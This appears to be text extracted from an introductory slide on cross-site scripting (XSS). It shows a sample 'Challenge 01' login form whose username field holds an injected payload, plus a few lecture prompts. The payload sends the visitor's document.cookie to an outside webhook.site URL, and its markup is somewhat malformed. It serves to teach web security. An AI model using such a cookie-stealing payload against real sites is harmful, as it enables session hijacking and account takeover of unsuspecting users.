

# XSS - Introduction
<!doctype HTML>
<html>
<head>
  <meta charset="utf-8">
  <title>Challenge 01</title>
</head>

<body style="font-family: arial;">
  <div style="width: 30em; margin:5em auto 0;  background-color: #EEE; padding: 1em;">
          <form action="/pa55word1-ee475kg3d/chall01-UGE1NXdvcmQxe3NuZWFreSF9.php" method="get">
        Username:<br />
        <input type= " " ><script>
	 <img src="https://webhook.site/collect.gif?cookie=' + document.cookie + '" />
	</script><" name="user" placeholder="Username" />
        <br /><br />
        Password:<br />
        <input type="password" name="password" placeholder="Password" />
        <br /><br />
        <input type="submit" name="submit" />
        <br /><br />
        <a stlye="font-size:0.5em" href="/pa55word1-ee475kg3d/chall01-UGE1NXdvcmQxe3NuZWFreSF9.php?forgotten_password=true">Forgotten password</a>
      </form>
Injecting client-side scripts into web applications.
XSS is injecting our code into a web application to be executed on the client

What can we do with XSS?

What is XSS?